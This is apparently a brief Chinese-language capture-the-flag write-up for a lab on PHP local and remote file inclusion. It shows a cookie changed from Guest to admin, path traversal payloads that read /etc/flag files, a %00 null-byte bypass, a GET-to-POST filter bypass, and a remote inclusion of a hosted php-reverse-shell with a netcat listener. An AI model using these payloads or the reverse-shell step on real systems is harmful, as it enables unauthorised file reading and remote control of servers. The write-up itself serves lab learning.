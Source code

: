```
Welcome Guest!
Only admins can access this page!
必須是admin
 
抓包發現 Cookie: THM=Guest  所以把Guest改成admin

後來改成amdins報錯
Warning: include(includes/admins.php)

Cookie: THM=admins/../../../../../../../etc/flag2

Warning</b>:  include(includes/admins/../../../../../../../etc/flag2.php)
發現在後面被加上了.php 所以用%00繞過

Cookie: THM=admins/../../../../../../../etc/flag2%00
```
### 3 
```
用 ../../../../etc/flag3
發現 Warning: include(etcflag.php)

....//....//....//....// 也是一樣過濾

把請求從get改成post

../../../../etc/flag3%00

P0st_1s_w0rk1in9

```

### 4
```
http://10.9.1.24:8000/php-reverse-shell.php 

然後本地nc -nvlp 4444

hostname:lfi-vm-thm-f8c5b1a78692
```



